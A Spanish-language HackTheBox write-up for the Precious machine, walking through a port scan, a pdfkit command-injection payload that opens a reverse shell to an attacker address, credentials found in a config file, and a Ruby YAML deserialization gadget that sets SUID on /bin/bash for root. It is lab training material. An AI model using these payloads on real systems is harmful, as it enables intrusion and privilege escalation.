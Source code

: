 ```yaml
---
title: HackTheBox - Precious
categories: [Linux]
tags: [HackTheBox]
image: Precious.png 
img_path: /assets/HTB/Precious/
---
```



En este post voy a explicar como resolver la máquina Precious de [Hack The Box](https://app.hackthebox.com/machines/Precious), en la cual vamos a estar explotando un RCE y para la escalada vamos a estar cargando un archivo malicioso que le dará permisos SUID a la bash

## Escaneo de puertos

```
# nmap -p- -sS --min-rate 5000 -sCV -oN nmap -n -Pn 10.10.11.189
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-13 20:44 -03
Nmap scan report for 10.10.11.189
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 845e13a8e31e20661d235550f63047d2 (RSA)
|   256 a2ef7b9665ce4161c467ee4e96c7c892 (ECDSA)
|_  256 33053dcd7ab798458239e7ae3c91a658 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


Si intentamos ingresar al servidor web que está corriendo en el puerto 80, nos redirigirá a ```precious.htb```, vamos a agregarlo a nuestro archivo ```/etc/hosts```.

```
$ echo "10.10.11.189   precious.htb" >> /etc/hosts
```

# Enumeración

Al ingresar a ```precious.htb``` veremos esto.

<img src="precious-pagina.png">

Se trata de un convertidor Web a PDF, vamos a montarnos un servidor web con Python para ver si recibimos alguna petición.
```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
<img src="peticion.png">


```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.189 - - [13/Jan/2023 21:09:15] "GET / HTTP/1.1" 200 -
```

Al darle a ```Submit``` el servidor web nos tramita una petición GET y también nos descarga un ```PDF``` con el contenido de nuestro directorio actual.

```
$ ls -l
rw-r--r-- onyx onyx   tjahioaa0e9xwj4ct8jzavolqclslrtl.pdf
```

Si hacemos uso de ```exiftool```, veremos que el ```PDF``` se crea con ```pdfkit``` de versión ```0.8.6```
```
$ exiftool tjahioaa0e9xwj4ct8jzavolqclslrtl.pdf

ExifTool Version Number         : 12.50
File Name                       : tjahioaa0e9xwj4ct8jzavolqclslrtl.pdf
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2023:01:13 21:09:16-03:00
File Access Date/Time           : 2023:01:13 21:09:16-03:00
File Inode Change Date/Time     : 2023:01:13 21:16:30-03:00
File Permissions                : -rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

Si buscamos en Google vulnerabilidades para esa versión, encontraremos que es ```vulnerable``` a un ```RCE``` y se explota de la siguiente forma.

```http://example.com/?name=#{'%20`sleep 5`'}```

Cambiemos el ```sleep 5``` por una ```Reverse Shell```.

```http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.14.54/443 0>&1"`'}```

<img src="revshell.png">

# Ganada de acceso

```
$ nc -lvnp 443

Connection from 10.10.11.189:50756
bash: cannot set terminal process group (660): Inappropriate ioctl for device
bash: no job control in this shell
bash-5.1$ whoami
ruby
bash-5.1$
```
# Enumeración del sistema

Ingresamos al sistema como el usuario ```ruby```, pero si hacemos un ```ls -l``` en el directorio del usuario ```ruby``` veremos una carpeta oculta llamada ```.bundle``` en el cual hay un archivo que contiene las ```credenciales``` de otro usuario del sistema.
```
bash-5.1$ ls -la

total 28
drwxr-xr-x 4 ruby ruby 4096 Jan 13 19:08 .
drwxr-xr-x 4 root root 4096 Oct 26 08:28 ..
lrwxrwxrwx 1 root root    9 Oct 26 07:53 .bash_history -> /dev/null
-rw-r--r-- 1 ruby ruby  220 Mar 27  2022 .bash_logout
-rw-r--r-- 1 ruby ruby 3526 Mar 27  2022 .bashrc
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .bundle
drwxr-xr-x 3 ruby ruby 4096 Jan 13 19:08 .cache
-rw-r--r-- 1 ruby ruby  807 Mar 27  2022 .profile

bash-5.1$ cat .bundle/*

BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Usemos estas credenciales para conectarnos por SSH como el usuario henry.
```
$ ssh henry@precious.htb

henry@precious.htb's password: Q3c1AqGHtoI0aXAYFH

-bash-5.1$ whoami
henry
```

Si hacemos un ```sudo -l``` para listar los permisos de ```sudoers```, podemos ejecutar un archivo hecho en ```ruby``` como el usuario ```root```.
```
-bash-5.1$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```
# Escalada de privilegios

Si leemos el script hecho en ruby que podemos ```ejecutar```, veremos que intentar cargar un archivo llamado ```dependencies.yml```, al cual no le indica ninguna ruta, por ende podemos crearnos un archivo con el mismo nombre y con un ```código malicioso``` para que le dé permisos ```SUID``` a la ```/bin/bash```


```
-bash-5.1$ s cat dependencies.yml 
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```

```
-bash-5.1$ sudo -u root /usr/bin/ruby /opt/update_dependencies.rb 2>/dev/null
-bash-5.1$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
-bash-5.1$ bash -p
bash-5.1# whoami
root
```
